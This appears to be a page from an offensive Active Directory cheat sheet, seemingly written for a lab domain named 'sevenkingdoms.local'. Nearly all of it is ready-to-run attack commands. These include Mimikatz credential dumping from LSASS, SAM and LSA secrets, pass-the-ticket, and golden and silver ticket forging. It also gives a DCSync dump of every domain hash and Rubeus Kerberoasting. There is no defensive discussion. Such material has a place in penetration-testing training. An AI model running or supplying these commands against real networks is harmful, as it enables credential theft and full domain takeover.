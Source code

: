 **Basic Commands**
```
# Enable debug privileges
privilege::debug
token::elevate

# Dump credentials
sekurlsa::logonpasswords
sekurlsa::wdigest
sekurlsa::tspkg
sekurlsa::ekeys

# Dump SAM/LSA
lsadump::sam
lsadump::secrets
lsadump::cache
```

**Kerberos Attacks**
```
# List tickets
sekurlsa::tickets

# Dump tickets
sekurlsa::tickets /export

# Pass-the-Ticket
kerberos::ptt ticket.kirbi

# Golden Ticket
kerberos::golden /user:Administrator /domain:sevenkingdoms.local /sid:S-1-5-21-... /krbtgt:hash /ptt

# Silver Ticket
kerberos::golden /user:Administrator /domain:sevenkingdoms.local /sid:S-1-5-21-... /target:castelblack.north.sevenkingdoms.local /service:cifs /rc4:hash /ptt
```

**DCSync Attack**
```
# Dump single user
lsadump::dcsync /user:krbtgt
lsadump::dcsync /user:sevenkingdoms\administrator

# Dump all users
lsadump::dcsync /domain:sevenkingdoms.local /all
```

### Rubeus

**Kerberoasting**
```
# List Kerberoastable users
.\Rubeus.exe kerberoast /stats
.\Rubeus.exe kerberoast /ldapfilter:"admincount=1"

# Request TGS tickets
.\Rubeus.exe kerberoast /user:jon.snow
.\Rubeus.exe kerberoast /outfile:hashes.txt
```
